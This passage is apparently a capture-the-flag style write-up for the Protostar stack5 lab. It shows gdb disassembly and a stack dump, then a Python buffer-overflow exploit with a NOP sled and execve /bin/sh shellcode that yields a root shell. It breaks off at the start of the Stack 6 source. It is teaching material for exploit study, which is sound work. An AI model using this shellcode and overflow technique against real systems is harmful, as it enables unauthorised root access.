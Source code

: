```bash
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
```

Stack flooded with chars:
```
0xbffff7c0:     0x00000000      0xbffff864      0xbffff86c      0xb7fe1848
0xbffff7d0:     0xbffff820      0xffffffff      0xb7ffeff4      0x08048232
0xbffff7e0:     0x00000001      0xbffff820      0xb7ff0626      0xb7fffab0
0xbffff7f0:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff800:     0xbffff838      0xf5025042      0xdf55a652      0x00000000
0xbffff810:     0x00000000      0x00000000      0x00000001      0x08048310
```

We first pad out the stack where we know that TTTT is where we need the new eip value. We know that we want at least `0xbffff7d0`, however to add tolerance, we pad this by 30, and add a `NOP` slide of 100 long until we hit out payload from `shell-code` which is a 28 byte `/bin/sh` execve shell-code.
```python
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0xbffff7d0+30)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + eip + nop + payload
```

Running this with cat for an input shell like below, we have access:
```bash
user@protostar:/tmp$ (cat stack5;cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
pwd
/tmp
```


## Stack 6

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);
```